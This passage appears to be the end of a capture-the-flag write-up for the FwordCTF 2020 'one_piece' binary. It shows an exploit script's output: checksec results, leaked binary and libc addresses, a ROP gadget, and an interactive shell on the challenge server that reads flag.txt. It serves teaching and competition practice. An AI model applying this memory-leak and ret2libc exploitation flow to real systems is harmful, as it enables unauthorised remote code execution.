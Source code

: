 Now, just change the second block in the setup section to use the remote server and get the flag.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/one_piece/one_piece'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/one_piece/libc-database/libs/libc6_2.30-0ubuntu2.2_amd64/ld-2.30.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/one_piece/libc-database/libs/libc6_2.30-0ubuntu2.2_amd64/libc-2.30.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to onepiece.fword.wtf on port 1238: Done
[*] mugiwara: 0x55ad7272d998
[*] binary.address: 0x55ad7272d000
[*] Loaded 14 cached gadgets for './one_piece'
[*] pop_rdi: 0x55ad7272dba3
[*] puts: 0x7fa3c865b490
[*] libc.address: 0x7fa3c85d4000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 40
-rw-r--r-- 1 root root    28 Aug 29 01:09 flag.txt
-rwxrwxr-x 1 root root 13016 Aug 29 18:46 one_piece
-rwxr-xr-x 1 root root 18744 Aug 29 01:05 ynetd
$ cat flag.txt
FwordCTF{0nE_pi3cE_1s_Re4l}
```

